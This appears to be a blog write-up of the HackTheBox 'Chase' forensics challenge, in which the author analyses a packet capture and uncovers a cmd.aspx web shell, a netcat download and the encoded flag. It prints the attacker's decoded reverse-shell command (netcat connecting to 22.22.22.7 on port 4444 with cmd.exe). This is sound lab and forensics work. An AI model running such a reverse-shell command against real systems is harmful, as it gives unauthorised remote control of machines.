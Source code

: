 ```yaml
---
title: "Chase Forensics Challenge"
date: 2021-10-04T17:30:30
categories:
  - challenge
tags:
  - HacktheBox
  - Forensics
classes: wide
---
```

To diversify my skill-set I have decided to work on CTF style challenges and write about them. The first, a forensics challenge: Chase from [HackTheBox](https://app.hackthebox.eu/challenges/chase)

>*"One of our web servers triggered an AV alert, but none of the sysadmins say they were logged onto it. We've taken a network capture before shutting the server down to take a clone of the disk. Can you take a look at the PCAP and see if anything is up?*""

This is also a test of adding images to these posts, and doing challenge writeups.

---

First we unzip the file we downloaded from HackTheBox.

<img src="/assets/images/chase/chase1.PNG" alt="Unzipping the challenge files.">

We see that we have a `chase.pcapng` which according to Wireshark's [wiki](https://wiki.wireshark.org/Development/PcapNg) is:

>*"The PCAP Next Generation Dump File Format (or pcapng for short) is an attempt to overcome the limitations of the currently widely used (but limited) libpcap format."*

So it is a packet capture dump file. We'll run `strings chase.pcapng` to see what strings we can read inside first.

<img src="/assets/images/chase/chase2.PNG" alt="Running strings on the file.">

We see web requests and responses, dumped by Wireshark. Looking around more we see:

<img src="/assets/images/chase/chase3.PNG" alt="/cmd.aspx + GET /nc64.exe">

We see the running of a `cmd.aspx` file which according to [fileinfo](https://fileinfo.com/extension/aspx) is:

>*"An ASPX file is an Active Server Page Extended (ASPX) file, which is a webpage generated by web servers running the Microsoft ASP.NET framework. It contains one or more scripts written in VBScript or C# code that are processed by the web server into HTML"*

This combined with `GET /nc64.exe` and the classic python SimpleHTTP server indicates that an attacker is running scripts to pop cmd shells and trying to transfer netcat in order to setup a reverse shell.

This is seen further when we url decode:

```
path=c%3A%5Cwindows%5Csystem32%5Ccmd.exe&xcmd=%2Fc+c%3A%5Cusers%5Cpublic%5Cnc.exe+22.22.22.7+4444+-e+cmd.exe&Button=Run
#into
path=c:\windows\system32\cmd.exe&xcmd=/c c:\users\public\nc.exe 22.22.22.7 4444 -e cmd.exe&Button=Run
```

We see they get in and run commands through this section of the pcap:

<img src="/assets/images/chase/chase4.PNG" alt="running whoami and ipconfig">

We open up Wireshark and go through the pcap dump, following the various tcp streams. We see this message on stream 6, and a request for a weird `.txt`.

<img src="/assets/images/chase/chase6.PNG" alt="running whoami and ipconfig">

Running the filename through GCHQ's [cyberchef](https://gchq.github.io/CyberChef/) magic algorithm which:

>*"The Magic operation attempts to detect various properties of the input data and suggests which operations could help to make more sense of it."*

Reveals the following:

<img src="/assets/images/chase/chase7.PNG" alt="Success!">

The flag was encoded in base32, we have successfully captured the flag!
